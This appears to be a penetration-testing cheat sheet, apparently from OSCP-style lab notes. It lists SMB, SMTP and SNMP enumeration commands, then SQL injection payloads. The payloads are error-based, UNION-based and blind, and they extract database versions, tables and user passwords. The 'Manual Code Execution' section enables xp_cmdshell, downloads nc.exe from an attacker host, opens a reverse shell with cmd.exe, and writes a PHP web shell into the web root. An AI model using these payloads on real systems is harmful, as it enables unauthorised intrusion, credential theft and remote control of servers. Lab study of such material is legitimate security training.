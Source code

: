 <a name="smb-enumeration"></a>
### SMB Enumeration
`kali@kali:~$ sudo nbtscan -r 192.168.50.0/24`
`kali@kali:~$ ls -1 /usr/share/nmap/scripts/smb*`
`kali@kali:~$ nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152`
`C:\> net view \\dc01 /all`

<a name="smtp"></a>
### SMTP
`kali@kali:~$ nc -nv 192.168.50.8 25`
	
	VRFY root

<a name="snmp"></a>
### SNMP
`kali@kali:~$ echo public > community`
`kali@kali:~$ echo private >> community`
`kali@kali:~$ echo manager >> community`
`kali@kali:~$ for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips`
`kali@kali:~$ onesixtyone -c community -i ips`
`kali@kali:~$ snmpwalk -v1 -c public 192.168.219.156 NET-SNMP-EXTEND-MIB::nsExtendOutputFull`
`kali@kali:~$ snmpwalk -v1 -c public 192.168.219.156 .1 > snmp.txt`

<a name="sql-injection-attacks"></a>
# SQL Injection Attacks
<a name="identifiying-sqli-via-error-based-payloads"></a>
## Identifiying SQLi via error-based payloads
`offsec' OR 1=1 -- //`
`' or 1=1 in (select @@version) -- //`
`' OR 1=1 in (SELECT * FROM users) -- //`
`' or 1=1 in (SELECT password FROM users) -- //`
`' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`

<a name="union-based-payloads"></a>
## UNION-based Payloads
`' ORDER BY 1-- //`
`%' UNION SELECT database(), user(), @@version, null, null -- //`
`' UNION SELECT null, null, database(), user(), @@version  -- //`
`' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`

<a name="blind-sql-injections"></a>
## Blind SQL Injections
`http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //`
`http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`

<a name="manual-code-execution"></a>
## Manual Code Execution
`'; EXECUTE sp_configure 'show advanced options', 1; --`
`'; RECONFIGURE; --`
`'; EXECUTE sp_configure 'xp_cmdshell', 1; --`
`'; RECONFIGURE; --`
`'; EXECUTE xp_cmdshell "powershell.exe wget http://192.168.45.181:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe";-- ';`
`'; EXECUTE xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 192.168.45.181 4444";-- ';`
`' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`

